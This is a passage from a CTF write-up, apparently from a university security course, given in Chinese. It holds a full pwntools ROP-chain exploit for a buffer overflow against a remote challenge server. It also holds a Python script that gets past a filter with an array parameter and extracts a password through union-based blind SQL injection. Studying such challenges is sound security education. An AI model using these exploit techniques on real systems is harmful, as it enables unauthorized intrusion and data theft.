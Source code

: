 這邊就有 buffer overflow 可以利用，我的解法是直接蓋 ROP chain，然後就可以拿掉 flag 了

```python
from pwn import *

context.terminal = ['tmux', 'split', '-h']
context.arch = 'amd64'

p = remote("edu-ctf.zoolab.org", 30212)

p.sendafter("Hello, world !", b"\xFF")

flag_buf = 0x404500
puts_addr = 0x401080
flush_addr = 0x4010A0
read_addr = 0x401090

pop_rdi_ret = 0x4013a3
pop_rsi_pop_r15_ret = 0x4013a1

ROP = flat(
    pop_rdi_ret, 3,
    pop_rsi_pop_r15_ret, flag_buf, 0xdeadbeef,
    read_addr,

    pop_rdi_ret, flag_buf,
    puts_addr,
    
    pop_rdi_ret, 0,
    flush_addr
)

p.send(b"A"*0x78 + ROP)

p.interactive()
```

> FLAG{just warmup :)}

### [Web] Happy Metaverse Year

首先會碰到的問題就是怎麼 bypass WAF，這邊用到的方式是傳入一個 username 的 array，就可以 bypass `username.includes("'")` 這個檢查。

之後用 union-based sql injection，搭配 `hex` 指令爆破每個 byte，即可拿到 flag

```python
import requests
import string

ip = '140.112.16.145'
host = "https://sao.h4ck3r.quest/login"

FLAG = ""

for i in range(1, 500, 1):
    print("idx: ", i)
    for c in range(0, 16):
        a = requests.post(host, data={
            'username[]': f"' union select 1,SUBSTRING(hex(password), {i}, 1),'{ip}' from users where username = 'kirito' --",
            'password': hex(c)[2:].upper()
        })
        if "welcome" in a.text:
            FLAG += hex(c)[2:].upper()
            print(FLAG)
            break
```